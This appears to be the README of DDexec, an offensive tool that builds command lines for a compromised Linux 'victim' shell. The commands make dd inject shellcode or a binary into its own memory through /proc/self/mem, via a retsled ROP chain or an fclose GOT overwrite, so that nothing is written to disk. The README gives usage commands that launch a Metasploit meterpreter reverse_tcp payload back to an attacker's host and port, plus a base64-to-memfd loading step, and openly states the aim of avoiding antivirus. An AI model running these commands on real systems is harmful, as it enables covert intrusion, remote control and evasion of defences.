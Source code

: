 # DDexec

## Installation
```bash
sudo apt-get update
sudo apt-get install readelf objdump xclip -y # xclip is optional but recommended 
sudo pip3 install ROPGadget
```

## Execution
First of all you need to to **download some files from the victim system**:
- **Dowload the `dd` binary**. Find it with `command -v dd`. This is required.
- **Download the libc library**. Find it with `ldd $(command -v dd) | grep libc | cut -d' ' -f3`. *This is required with mode "retsled"*.
- Get the **output** of `uname -m`

*Note that in the **STDOUT is only going to be printed the commands to execute in the victim machine**. Banner, information and logs are printed in STDERR.*

Then execute `DDexec.sh` with `xclip` and the **clipboard will be populated** with the command line you need to run in the victim system.
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -H 127.0.0.1 -P 4444 -p linux/x64/meterpreter/reverse_tcp | xclip -selection clipboard
```
**Paste the clipboard in the reverse-shell of the victim and the shellcode/binary will be run.**
*To run a binary you need to use the argument `-b`. Please, read the **Binary Load** section to learn how*

## Help
```
Use this program to execute shellcodes and binaries in memory.
Arguments:
    -h Print this help
    -d Path to the victim dd binary (you should download it from the victim). Find it with 'command -v dd' Required.
    -l Path to the victim libc (you should download it from the victim). Find it with 'ldd `command -v dd` | grep libc | cut -d' ' -f3'. Required with mode "retsled".
    -H LHOST to receive the meterpreter
    -P LPORT to receive the meterpreter.
    -p Metasploit payload (by default linux/x64/meterpreter/reverse_tcp)
    -a Architecture of the victim system. Get it with 'uname -m'. Required.
    -m Mode of memory load. By default fclose_got if dd binary not protected with full relro, if protected, retsled is forced.
    -s Shellcode to execute in hex "4831c0b002...". If msfvenom params are given, msfvenom will create a shellcode. By default a shellcode that echoes "Pwnd!" is used.
    -b Binary to load in memory. It has to be either statically linked or use the same dynamic libs as on a target machine.

e.g.: DDexec.sh -d /path/to/dd [-l /path/to/libc] -P 4444 -H 10.10.10.10 -a x86_64 [-m <fclose_got,retsled> (default fclose_got)] [-s <shellcode_hex>]
```

## Explanation
DDexec is a technique to **load arbitrary shellcodes and binaries in memory from a shell** in a linux system without needing to write anything into disk.
This can help you **avoid AVs and protections** (*like a filesystem mounted as Read Only*).
Basically, this program will prepare a cmd line that will make **`dd` overwrite itself during execution in memory and execute a defined shellcode or a different binary.**
Therefore, what the prepared cmd line is going to do is to use **`dd` to write a shellcode its own memory (via */proc/self/mem*) and then get control the RIP of the dd process to execute the shellcode**.
In order to control the RIP **2 techniques** are implemented in `DDexec.sh`:

### Retsled
**This technique was defined and developed by [Arget](https://google.com) TODO: Put arget github**
This technique uses a retsled to overwrite an important part of the stack of the proccess with the goal of overwritting a RIP address inside the stack with a series of RET. At the end of the retsled a ROP chain is located, so once the RIP is controled by a RET instruction of the retsled the execution will arrive to the ROP chain.
This ROP chain will read the shellcode usnig the `read()` function from `libc` and write it in `0x0000555555554000`.
*This technique generates a **bigger cmd line** than then next technique, maily because of the retsled, but **works with any `dd`**. It's the default teachnique when the dd binary is protected with full relro*

### fclose GOT
Based on the technique described in https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md this technique **writes the shellcode in the GOT** of the last function executed by `dd` before exiting: **`fclose`**. Therefore, when **`fclose` is executed, the shellcode will be executed instead**.
*This technique **won't work if the `dd` binary is protected with full relro** because then the GOT table isn't writable*

*Both techniques are possible because the **ASLR is disabled** when executing `dd` using `setarch`.*

### Binary load
This technique was taken from **https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.mdaslr**.
In orer to **load a binary inside dd and execute it** the following steps are performed:
- Use a shellcode which will create a memfd file in a memory. This is done using the system call *memfd_create()* which creates an anonymous file and returns a file descriptor that refers to it. The file **behaves like a regular file. However, it lives in RAM** and is automatically released when all references to it are dropped.
- Inject the shellcode into a `dd` process (using one of the 2 previous techniques)
- 'suspend' the dd process (also done by the shellcode). Then, the memfd won't be deleted as long as the `dd` process is running.
- Write the binary to be executed inside the memfd file, and execute it.

To perform this steps with `DDexec.sh` you need to **indicate with the `-b` argument the path to the binary** you want to load in memory:
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -b /path/to/bin | xclip -selection clipboard
```
Then, **execute the new cmd line of the clipboard inside the target system**.
This will generate a new `dd` process which will have created and **exposed a memfd file** and suspended its execution (so it doesn't die).
You can see the new memf file exposed running:
```bash
ls -l /proc/$(pidof dd)/fd/
total 0
lrwx------ 1 kali kali 64 Dec 27 12:22 0 -> '/memfd:AAAA (deleted)'
lrwx------ 1 kali kali 64 Dec 27 12:25 2 -> /dev/pts/4
```
Notice how one of the file descriptors is **`memfd` aparently "deleted"**. Note how the fd is `0` (in this example).
Then, to **load the binary in memory** you just need to **write it in this file**. For that purpose `DDexec.sh` will have echoed **a cmd line prepared to decode the base64 of the binary and write it in the file descriptor** (*change the fd index of the cmd line if necessary*).
Just execute that cmd line in the target system. It will look like this:
```bash
# Change the fd number if necesSary
echo 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAYGEAAAAAAABAAAAAAAAAAGg3AgAAAAAAAAAAAEAAOAALAEAAHgAdA...' | base64 -d > /proc/\$(pidof dd)/fd/0
```

Once you have executed this cmd line, you will have **loaded the binary in memory in that memfd**. So you can just execute it as a normal binary:
```bash
# Doing this you will be executing the loaded binary
## Change the fd number if neceSsary
/proc/\$(pidof dd)/fd/0
```